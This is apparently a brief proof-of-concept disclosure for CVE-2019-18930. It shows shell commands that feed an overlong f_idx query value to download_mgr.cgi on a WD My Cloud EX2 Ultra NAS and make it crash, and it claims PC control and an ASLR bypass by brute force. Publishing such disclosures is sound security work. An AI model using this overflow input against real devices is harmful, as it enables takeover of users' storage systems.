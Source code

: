 # CVE-2019-18930

## Information

```
Target      : WD My Cloud EX2 Ultra
Version     : 2.31.183, 2.31.195
```

## Proof of Concept

```
root@MyCloudEX2Ultra cgi-bin # export REQUEST_METHOD=GET
root@MyCloudEX2Ultra cgi-bin # export QUERY_STRING=cmd=Downloads_Schedule_Info\&f_idx=`python -c 'print "a"*0x1f3 + "bbbb"'`
root@MyCloudEX2Ultra cgi-bin # ./download_mgr.cgi
I/O warning : failed to load external entity "/mnt/HD_a4/.systemfile/schedcfgs/aaaaaa (etc.) aaaaabbbb.xml"
Segmentation fault
```

<https://youtu.be/x_YNsGnqG1o>

## Exploit

It is possible to control the PC register and bypass ASLR by doing brute force attack.

